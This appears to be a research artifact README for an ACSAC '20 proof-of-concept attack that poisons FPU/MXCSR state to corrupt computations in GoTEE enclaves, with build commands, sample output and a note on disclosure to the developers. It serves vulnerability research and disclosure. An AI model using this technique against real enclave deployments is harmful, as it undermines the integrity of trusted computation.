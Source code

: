 # Proof of concept attack on GoTEE

## Install GoTEE

```bash
$ sudo apt-get -yqq install golang
$ cd gotee-fpu
$ go get github.com/aghosn/serializer
$ PATH=$PATH:$HOME/go/bin
$ sudo make
```

**Note (Artifact).** This step was already executed on the lab machine for the ACSAC '20 artifact submission.

## Build and run example attack enclave

We provide a hello-world sample that executes a print from both the untrusted and trusted domains.

Example output showcasing an example run with and without FPU poisoning in an
untrusted domain and enclave, respectively. Notice the faulty result for
`VADDPD` when poisoning the denormals-as-zero MXCSR flag:

```
$ PATH=$PATH:$HOME/go/bin
$ cd example/hello-world/
$ make
$ ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fe0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fe0
```

## Disclosure and mitigation

We reported this issue to the GoTEE developers in <https://github.com/epfl-dcsl/gotee/issues/3> .